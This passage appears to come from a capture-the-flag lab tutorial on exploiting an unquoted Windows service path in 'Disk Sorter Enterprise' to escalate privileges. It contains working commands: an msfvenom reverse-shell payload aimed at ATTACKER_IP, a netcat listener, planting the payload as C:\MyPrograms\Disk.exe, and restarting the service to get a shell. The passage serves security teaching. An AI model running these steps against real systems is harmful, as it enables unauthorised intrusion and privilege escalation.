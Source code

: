 From this behaviour, the problem becomes evident. If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.

While this sounds trivial, most of the service executables will be installed under `C:\Program Files` or `C:\Program Files (x86)` by default, which isn't writable by unprivileged users. This prevents any vulnerable service from being exploited. There are exceptions to this rule: - Some installers change the permissions on the installed folders, making the services vulnerable. - An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited.

In our case, the Administrator installed the Disk Sorter binaries under `c:\MyPrograms`. By default, this inherits the permissions of the `C:\` directory, which allows any user to create files and folders in it. We can check this using `icacls`:

```
C:\>icacls c:\MyPrograms
c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
              BUILTIN\Administrators:(I)(OI)(CI)(F)
              BUILTIN\Users:(I)(OI)(CI)(RX)
              BUILTIN\Users:(I)(CI)(AD)
              BUILTIN\Users:(I)(CI)(WD)
              CREATOR OWNER:(I)(OI)(CI)(IO)(F)
Successfully processed 1 files; Failed processing 0 files
```
The `BUILTIN\\Users` group has **AD** and **WD** privileges, allowing the user to create subdirectories and files, respectively.

The process of creating an exe-service payload with msfvenom and transferring it to the target host is the same as before, so feel free to create the following payload and upload it to the server as before. We will also start a listener to receive the reverse shell when it gets executed:

`user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe`

`user@attackerpc$ nc -lvp 4446`

Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to `C:\MyPrograms\Disk.exe`. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:

```
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
              Successfully processed 1 files.
```

Once the service gets restarted, your payload should execute:

```
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```
As a result, you'll get a reverse shell with svcusr2 privileges:

```
user@attackerpc$ nc -lvp 4446 
Listening on 0.0.0.0 4446 
Connection received on 10.10.175.90 50650 
Microsoft Windows [Version 10.0.17763.1821] 
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr2
```
Go to svcusr2 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.
